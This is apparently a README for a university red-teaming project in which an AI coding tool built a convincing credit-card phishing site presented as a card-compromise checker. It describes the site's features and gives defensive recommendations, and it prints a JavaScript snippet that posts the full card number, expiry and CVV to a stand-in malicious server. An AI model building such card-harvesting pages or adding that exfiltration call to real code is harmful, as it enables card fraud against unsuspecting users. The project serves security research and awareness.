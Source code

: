 # CardShield: A Red Teaming AI Security Experiment

![Project Banner](https://img.shields.io/badge/Cornell%20Tech-Red%20Team%20Experiment-red)
![Status](https://img.shields.io/badge/Status-Educational%20Only-blue)
![License](https://img.shields.io/badge/License-MIT-green)

## Overview

This project was developed as part of the Cornell Tech Red Teaming course to assess the emerging security risks associated with AI-powered development tools. Specifically, we tested whether Cursor (an AI-powered IDE using Claude's 3.7 Sonnet model) could generate a legitimate-looking website designed to harvest sensitive financial information.

**IMPORTANT**: This project is for **educational purposes only**. The code in this repository should not be deployed in production or used to collect actual credit card information.

## Experiment Results

Our hypothesis was validated within minutes. The AI was able to rapidly generate a professional, modern-looking website with:

- A convincing security-focused narrative (checking if a card has been "compromised")
- Complete credit card data collection (16-digit card number, cardholder name, expiry date, CVV)
- Sophisticated UI with interactive 3D card flipping
- Form validation for all credit card fields
- Realistic loading animations and "scanning" sequences
- Professional design elements (gradient text, responsive layout, custom animations)

The resulting site is visually indistinguishable from legitimate FinTech products, lending it immediate credibility to potential users. The entire implementation took less than 5 minutes from prompt to complete code generation.

## Technical Implementation

The application was created using vanilla web technologies:

- **HTML5** for structure
- **CSS3** for styling (with custom animations and 3D transformations)
- **JavaScript** for interactive elements and validation

Key features include:

1. **Interactive 3D Credit Card**: The card visually flips to show both front and back sides, with dedicated inputs for each field
2. **Multi-step User Flow**: Initial card entry → Scanning animation → Success message
3. **Field Validation**: Real-time validation for card number format, expiry dates, and CVV
4. **Auto-advancing Inputs**: Automatically focuses the next field when current input is complete
5. **Simulated "Security Scan"**: Animated loading sequence with progress indicators

## Security Implications

The ease and speed with which this convincing interface was generated raises several security concerns:

1. **Low Barrier to Entry**: Malicious actors no longer need extensive frontend development skills to create convincing phishing sites
2. **High Level of Polish**: The professional appearance makes the site immediately credible to average users
3. **Quick Iteration**: Such tools allow for rapid refinement based on user feedback
4. **Customizability**: The codebase can be easily modified to change branding, messaging, or functionality

For example, a malicious actor could trivially modify the `scanButton` event listener in `script.js` to send captured card data to an external server before showing the success animation:

```javascript
scanButton.addEventListener('click', function() {
    // Validation code...
    
    // This could be added to exfiltrate the data
    fetch('https://malicious-server.com/collect', {
        method: 'POST',
        body: JSON.stringify({
            cardNumber: `${cardNumber1}${cardNumber2}${cardNumber3}${cardNumber4}`,
            cardHolder: cardHolder,
            cardExpiry: `${cardMonth}/${cardYear}`,
            cardCvc: cardCvc
        })
    });
    
    // Continue with the original flow...
    changeState(initialState, loadingState);
    simulateScanning();
});
```

## Ethical Considerations

This project highlights the dual-use nature of powerful AI tools. The same capabilities that enable rapid prototyping and development for legitimate businesses also lower barriers for creating deceptive interfaces.

We believe that openly discussing these capabilities is crucial for:

1. **Raising awareness** among security professionals and the public
2. **Encouraging responsible AI development** that considers potential misuse
3. **Promoting stronger authentication systems** that go beyond visual trust signals
4. **Advancing discussions** around appropriate guardrails for AI-assisted coding

## Defensive Recommendations

Based on this experiment, we recommend:

- **For Users**: Be skeptical of websites requesting financial information, even when they look professional. Verify the domain and use official apps when possible.
- **For Developers**: Implement robust CSP policies, SRI checks, and consider how design elements might be co-opted.
- **For Platforms**: Consider how to detect and mitigate potentially deceptive interfaces created through AI tools.
- **For Educators**: Include AI-generated content in security training scenarios.

## Running the Project

To explore this project locally:

1. Clone the repository
2. Open `index.html` in a modern web browser
3. Interact with the interface to understand its flow

No server-side code or dependencies are required as this is a client-side only implementation.

## Conclusion

This experiment demonstrates that AI models can now generate sophisticated, deceptive web interfaces with minimal human guidance. As these tools become more accessible, the security community must adapt its defensive strategies and educate users about emerging risks.

The project serves as a call for proactive measures in the rapidly evolving landscape of AI-assisted development, where the technical barriers to creating convincing fraudulent interfaces are rapidly diminishing.

## License

This project is available under the MIT License for educational purposes only.